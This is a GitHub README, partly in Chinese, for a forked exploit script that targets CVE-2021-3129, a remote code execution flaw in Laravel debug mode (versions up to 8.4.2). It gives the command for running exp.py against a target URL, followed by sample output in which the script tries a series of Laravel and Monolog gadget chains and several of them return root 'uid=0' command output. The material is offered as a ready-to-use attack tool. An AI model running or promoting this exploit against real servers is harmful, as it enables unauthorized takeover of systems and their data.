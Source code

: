 # CVE-2021-3129
Laravel &lt;= v8.4.2 debug mode: Remote code execution (CVE-2021-3129)

修改了@crisprss师傅的 https://github.com/crisprss/Laravel_CVE-2021-3129_EXP 增加了更多可用的 gadget 用于遍历

Use：
```
python3 exp.py http://127.0.0.1:8888
```

效果：
![images](https://github.com/zhzyker/CVE-2021-3129/blob/main/2021-02-18_13-46.png)
```
zhzy@debian:/opt/tools/vuln/laravel/CVE-2021-3129/phpggc$ python3 exp.py http://127.0.0.1:8888
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:


[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:


[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:


[*] Try to use Laravel/RCE4 for exploitation.
[+]exploit:
[*] Laravel/RCE4 Result:


[*] Try to use Laravel/RCE5 for exploitation.
[+]exploit:
[*] Laravel/RCE5 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Laravel/RCE6 for exploitation.
[+]exploit:
[*] Laravel/RCE6 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Laravel/RCE7 for exploitation.
[+]exploit:
[*] Laravel/RCE7 Result:


[*] Try to use Monolog/RCE1 for exploitation.
[+]exploit:
[*] Monolog/RCE1 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Monolog/RCE2 for exploitation.
[+]exploit:
[*] Monolog/RCE2 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Monolog/RCE3 for exploitation.
[+]exploit:
[*] Monolog/RCE3 Result:


[*] Try to use Monolog/RCE4 for exploitation.
[+]exploit:
[*] Monolog/RCE4 Result:

```

